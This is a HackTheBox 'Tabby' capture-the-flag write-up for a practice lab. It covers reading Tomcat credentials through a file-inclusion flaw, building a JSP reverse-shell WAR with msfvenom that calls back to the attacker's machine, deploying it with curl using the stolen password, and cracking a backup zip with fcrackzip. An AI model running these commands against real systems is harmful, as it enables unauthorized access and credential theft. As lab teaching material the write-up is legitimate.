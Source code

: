 ```yaml
---
title: HackTheBox Tabby Writeup
published: true
---
```


![](https://i.ibb.co/mBPb1hs/logo.png)

# []()Methodology

* nmap scan
* LFI Lead to read tomcat user credentials
* exploitation by Metasploit
* crack zip file by fcrackzip 
* own user
* Privilege Escalation

# []()Nmap Scan

> as always, i’ll do nmap scan to find out which services running in this machine.

* 8080 for apache tomcat

* 22 for ssh

* from nmap scan i know that there is a apache tomcat server.

```ruby

# Nmap 7.80 scan initiated Sun Jun 21 05:43:17 2020 as: nmap -sC -sV -oN scan.txt 10.10.10.194
Nmap scan report for 10.10.10.194
Host is up (0.13s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

> let's check the web page now.

![](https://i.ibb.co/b5RHnQj/webpage-mega.png)

> after looking at the source code i found the way to exploit LFI, let's see how.

![](https://i.ibb.co/BNg7ZrK/lfi-param.png)

# []() LFI Part

* from the source code i've found the url: http://megahosting.htb/news.php?file=

> the file parameter was vulnerable to LFI, let's check it.

![](https://i.ibb.co/qNY5mWv/lfi-done.png)

* now we have lfi, let's check the port 8080 now.

![](https://i.ibb.co/Hp3ND9s/port-8080.png)

> from this page we know that the users data we will find it at **tomcat9/tomcat-users.xml**, let's use lfi now.

* from Apache tomcat [Docs](http://tomcat.apache.org/tomcat-8.5-doc/manager-howto.html) i know that the file will be in **/usr/share/tomcat9/etc/tomcat-users.xml**

* if you are a linux user you will know that without any blogs because any program data will be found at **/usr/share**

> here is the credentials for apache tomcat server.

![](https://i.ibb.co/xfR6Rjq/user-data.png)

* username:**tomcat**
* password:**$3cureP4s5w0rd123!**

> now we have the credentials, let's use metasploit now to exploit this service.

# []() Exploitation Part

> exploitation part was very easy, we need a **wat** format backdoor to upload to the server and start deploying it to get a reverse shell.

* let's generate a war file with **msfvenom**.

> **msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.xx LPORT=9002 -f war > xdev0.war**

* after generating this file we need to upload it and deploy it as a new application.

> **curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file xdev0.war "http://10.10.10.194:8080/manager/text/deploy?path=xdev0.war"**

```ruby

╭─xdev05@nic3One ~/Documents/HTB/Tabby  
╰─➤  curl --user 'tomcat:$3cureP4s5w0rd123!' --upload-file xdev0.war "http://10.10.10.194:8080/manager/text/deploy?path=/xdev0.war"
OK - Deployed application at context path [/xdev0.war]
╭─

```
> let's start nc listener now and open this link http://10.10.10.194:8080/xdev0.war/.

![](https://i.ibb.co/pytCy44/nc.png)

* nice!

> in this point you can use metasploit too.

![](https://i.ibb.co/r3rWxQj/metasploit.png)

# []()USER Part

> after some enumeration, I've found a compressed backup file and after cracking this file I used its password to escalate my privilege to the user privileges.

* here is the backup file

![](https://i.ibb.co/nsZ1vjz/backup-file.png)

* let's crack it now with **fcrackzip**

> **fcrackzip -v -u -D -p /usr/share/wordlists/rockyou.txt 16162020_backup.zip**

![](https://i.ibb.co/5TFBTT6/fcrack-result.png)

* let's escalate our privilege now.

> **su ash**

![](https://i.ibb.co/p2GjmMp/user.png)

* user done!.



